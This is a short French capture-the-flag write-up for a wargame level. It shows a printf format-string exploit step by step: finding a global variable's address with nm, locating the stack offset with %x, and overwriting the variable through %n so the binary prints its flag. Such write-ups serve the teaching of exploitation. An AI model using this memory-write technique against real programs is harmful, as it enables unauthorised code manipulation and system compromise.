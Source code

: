 #  LEVEL - 4

- Nous voyons dans le code source que la variable que nous devons ovewride est m. Avec la commande `nm` nous pouvons afficher les addresses.

<pre>
$> nm level4
...
<strong>08049810 B m</strong>
080484a7 T main
08048457 T n
08048444 T p
...
</pre>

- Nous avons l'adresse qui nous interesse. En litle indian: 10 98 04 08. Nous devons alors chercher l'endroit exacte de l'adresse grace au printf.

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%x ' * 13)" | ./level4
AAAAb7ff26b0 bffff734 b7fd0ff4 0 0 bffff6f8 804848d bffff4f0 200 b7fd1ac0 b7ff37d0 41414141 <strong>8049810</strong>
</pre>

- On voit que dans la source il faut que m soit egal a 16930116 pour que le programe execute un cat sur le flag. Grace au %13\$n nous prenons la 13e adresse (soit l'adresse de la variable m que nous devons override).

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%16930108d'+ '%13\$n')" | ./level4 | tr -d ' '
</pre>
